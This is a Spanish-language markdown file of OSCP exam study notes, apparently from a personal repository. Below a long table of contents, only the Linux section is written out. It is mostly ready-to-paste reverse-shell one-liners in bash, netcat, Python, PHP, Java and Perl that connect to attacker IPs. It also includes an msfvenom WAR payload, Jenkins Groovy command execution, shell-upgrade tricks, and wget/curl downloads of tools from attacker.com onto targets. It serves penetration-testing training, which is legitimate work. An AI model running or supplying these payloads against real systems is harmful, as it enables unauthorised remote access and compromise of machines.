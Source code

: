 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [General](#General)
  - [Information Ghatering](#Information-Ghatering)
    - [Port Scanning](#Port-Scanning)
    - 
  - [Pentesting Web](#Pentesting-Web)
    - [Webshells](#Webshells)
    - [LFI](#LFI)
    - [LFI TO RCE](#LFI-TO-RCE)
    - [RFI](#RFI)
    - [Wordpress](#Wordpress)
      - [Encontrando plugins]
      - [xmlrpc goes wild]
    - [Shellshock](#Shellshock)
    - [JWT](#JWT)
      - [WEAK SECRET](#WEAK-SECRET)
      - [PUBLIC KEY](#PUBLIC-key)
    - [SQLi]
  - [Crackeando hashes]
    - [Hashcat](#Hashcat)
    - [John the Ripper](#John-the-Ripper)
    - [Aplicando Reglas (ver delivery)](#Aplicando-Reglas)
  - [Port Forwarding/ Port Tunneling](#Port-Forwarding)
    - [Chisel](#Chisel)
    - [Plink](#Plink)
    - [Ncat](#Ncat)
    - [SSH](#SSH)
    - [Metasploit](#Metasploit)
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
    - [PHP](#PHP)
    - [Java](#Java)
    - [Perl](#Perl)
    - [War msfvenom (tomcat manager)](#War)
    - [Groovy (Jenkins console)](#Groovy-(Jenkins-Console))
  - [Spawneando una shell mejor](#Spawning-a-TTY-shell)   
  - [Privilege Escalation](#Privilege-Escalation) 
  - [Escapando de Docker](#Escapando-de-Docker)
    - [Forma 1 ver ready]
    - [Forma 2 ver feline]
    - [Forma 3 ver tnb]
    - [Forma 4 ver final de reddish]
  - [Transferencia de Archivos](#Transfiriendo-Archivos)
    - [HTTP](#HTTP)
      - [Python](#Python_t)
      - [Python3](#Python3)
      - [Apache](#Apache)
      - [Php](#PHP_t)
    - [Curl](#Curl)
    - [Wget](#Wget)
    - [NetCat](#NetCat_t)
    - [/dev/tcp/](#Dev-tcp)
    - [FTP](#FTP)
    - [SCP](#SCP)
    - [Samba](#Samba)
  - [Bypassing de restricciones al inyectar comandos](#Bypassing-de-restricciones-al-inyectar-comandos)
  - [Bypassing restricted shells (rbash , rzsh,etc)](#Bypassing-restricted-shells-(rbash,rzsh,etc))    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  Laudanum common reverse shell /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
#### War
  ```bash
  msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f war > shell.war
  ```
#### Java
  ```bash
  r = Runtime.getRuntime()
  p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
  p.waitFor()
  ```
#### Groovy (Jenkins Console)

  ```bash
  cmd = """ whoami """
  println cmd.execute().text
  ```
#### Perl
  ```bash
  perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  ```
 
### Spawning a TTY shell
  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash 
      \[ctrl+z] 
      stty raw -echo
      fg
    ## Usando rlwrap & script
      rlwrap nc -nlvp 443
      /usr/bin/script -qc /bin/bash /dev/null
    ## Usando socat
      parrot~> socat file:`tty`,raw,echo=0 tcp-listen:4444
      target~> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
    ## Exportando variables para poder tener una shell full interactiva
      export TERM=xterm-256color
      export SHELL=bash
      alias ll='ls -lsaht –color=auto'
  ```
## Transfiriendo archivos

### HTTP
#### Python_t
  ```bash
  python -m SimpleHTTPServer 80
  ```
#### Python3
  ```bash
  python3 -m http.server 80
  ```
#### Apache
  ```bash
  sudo service start apache2
  sudo systemctl apache2 start
  ```
#### PHP_t
  ```bash
  php -S 0.0.0.0:8080
  ```
### Curl
  ```bash
  curl -O http://attacker.com/nc
  ```
### Wget
  ```bash
  wget http://attacker.com/nc # current directory
  wget http://attacker.com/nc -O /dev/shm/nc # Setting output path
  ```
### NetCat_t
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  source -> nc targetip 4444 -w 3 < FileToTransfer (w representa un tiempo de espera en seg para archivos muy grandes)
  ```
### Dev tcp
  ```bash
  target -> nc -lvp 4444 > FileToTransfer
  cat FileToTransfer > /dev/tcp/targetip/4444 
  ```
### FTP
  ```bash
  pip3 install pyftpdlib
  source -> python3 -m pyftpdlib -p 21 -u chan -P 123
  target -> ftp sourceip # pw : 123  
  ```
### SCP
  ```bash
  source -> scp file.txt user@10.10.10.10:/tmp
  target -> cat /tmp/file.txt
  ```
### Samba
  ```bash
  source -> sudo impacket-smbserver share $(pwd) -user chan -password
  target -> smbclient //sourceip/share -U chan%chan
  ```
